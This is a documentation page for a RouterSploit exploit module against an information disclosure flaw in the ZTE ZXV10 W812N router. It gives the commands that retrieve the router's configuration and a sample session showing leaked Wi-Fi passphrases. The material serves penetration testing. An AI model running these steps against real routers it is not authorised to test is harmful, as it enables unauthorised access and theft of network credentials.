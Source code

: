 ## Description

Exploits ZTE ZXV10 W812N information disclosure vulnerability that allows download router configuration file.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use exploits/routers/zte/zxv10_w812n`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If device is vulnerable all passwords is retrieved.

## Scenarios

```
rsf > use exploits/routers/zte/zxv10_w812n
rsf (ZTE ZXV10 W812N Information Disclosure) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (ZTE ZXV10 W812N Information Disclosure) > run
[*] Running module exploits/routers/zte/zxv10_w812n...
[+] Target seems to be vulnerable
[+] WLANPSK

   PreSharedKey     KeyPassphrase
   ------------     -------------
   <blank>          !@#$12345
   <blank>          12345678

[+] UserInfo

....

```
